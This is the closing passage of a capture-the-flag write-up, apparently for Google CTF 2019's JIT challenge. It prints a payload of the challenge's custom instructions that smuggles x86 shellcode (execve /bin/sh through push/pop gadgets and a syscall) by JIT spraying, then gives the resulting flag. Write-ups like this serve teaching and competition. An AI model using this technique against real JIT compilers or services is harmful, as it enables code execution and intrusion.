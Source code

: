 ```C
    "LDR(A, 0)",            // load ctr from 0
    "ADD(A, 1)",            // ctr++
    ///////////// 25
    "JMP(18)",              // a------->
    "LDR(A, 2)",
    "ADD(A, 18699)",        // value += 18699 => 0x6e69622f
    "STR(A, 0)",

    "JMP(\xe0\xa5\xa8\x38)",
    ///////////// 30
    "MOV(A, 37961)",        // xchg rax, r12
    "JMP(\xe0\xa5\xa9\x30)",
    "MOV(A, 24406)",        // push rsi; pop rdi
    "JMP(\xe0\xa5\xa9\x32)",
    "MOV(A, 106)",          // push 0
    ///////////// 35
    "JMP(\xe0\xa5\xa9\x34)",
    "MOV(A, 106)",          // push 0
    "JMP(\xe0\xa5\xa9\x36)",
    "MOV(A, 36958)",        // pop rsi; nop
    "JMP(\xe0\xa5\xa9\x38)",
    "MOV(A, 36954)",        // pop rdx; nop
    ///////////// 35
    "JMP(\xe0\xa5\xaa\x30)",
    "MOV(A, 15210)",        // push 59
    "JMP(\xe0\xa5\xaa\x32)",
    "MOV(A, 95576)",        // pop rax; jne + 1
    "JMP(\xe0\xa5\xaa\x34)",
    "MOV(A, 1295)",         // syscall 
    "RET()",
};
```

Printing this to our terminal and copy pasting it into the connection with the server, we can get our shell and thus our flag!

`CTF{8röther_m4y_1_h4v3_söm3_nümb3r5}`

[challenge]:/ctf/gctf19/JIT/8929b327b760ffb62c092dee035bce9992735012b85a1f274c39f4721889b3c1.zip